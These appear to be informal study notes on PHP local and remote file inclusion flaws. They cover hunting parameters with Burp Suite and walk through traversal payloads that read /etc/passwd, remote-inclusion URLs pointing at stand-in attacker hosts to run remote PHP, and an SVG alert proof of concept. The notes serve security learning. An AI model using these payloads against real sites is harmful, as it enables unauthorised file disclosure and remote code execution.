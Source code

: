 •	Some time, developer use another value ‘app’ and them append $variable, to in this case u have to put ../ the get out from default directory to get code execute.

example. com/file/?page=../etc/passwd

$page = $_GET[‘page’];
include('/app/'.$page); => include('/app/../etc/passwd');

Types:
1.	Local File Inclusion.
example.com/file/?page=/etc/passwd
If we give this path in url then we’ll get password file. This will be the vulnerability.

2.	Remote File Inclusion.
example.com/file/?page=https://attacker.com/malicious.php
If you provide a like, then u can execute the code from malicious.php file into the target’s website. And can get RCV this is very critical vulnerability. I.e u can execute any code remotely in targets website.

Using BURPSUITE
•	Crawl the website and check the parameters which containing similar the given bellow: like file, path or url.
o	example.com/file/?page=login.php
o	example.com/file/?page=login
o	example.com/file/?page=/app/login.php
o	example.com/file/?page= https://sub.example.com/login.php
o	It could be
o	example.com/file/?page=login.php
o	example.com/file/?file=login
o	example.com/file/?filename=/app/login.php
o	example.com/file/?path=https://sub.example.com/login.php
o	example.com/file/? document=login.php
o	example.com/file/? documenturi=/app/login.php
o	example.com/file/?url= https://sub.example.com/login.php
o	example.com/file/?uri= https://sub.example.com/login.php
•	MORE BinGoo/LFI-dork.lst at master · Hood3dRob1n/BinGoo.
•	Now
•	For
•	GET /showimage.php?file=./pictures/3.jpg HTTP/1.1
o	Content-Type: image/jpeg
	Now, edit the para and give it path /etc/passwd
o	GET /showimage.php?file=/etc/passwd HTTP/1.1
	Now here we get the errors, showing the path /hj/var/www/ 
	To travel back to the directory, use ../ to get a dir back. Or put ../../ to go 2x back in dir.
o	GET /showimage.php?file=../../etc/passwd
	Now here we got the passwd file.
o	If works so we can try to give attackers website.
o	GET /showimage.php?file=https://hacker.com/malicious.php
	Like
o	GET /showimage.php?file=https://brutelogic.com.br/poc.svg
	This link will create a poop-up.
	In that case we have to try .php file
o	https://brutelogic.com.br/poc.svg
	<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
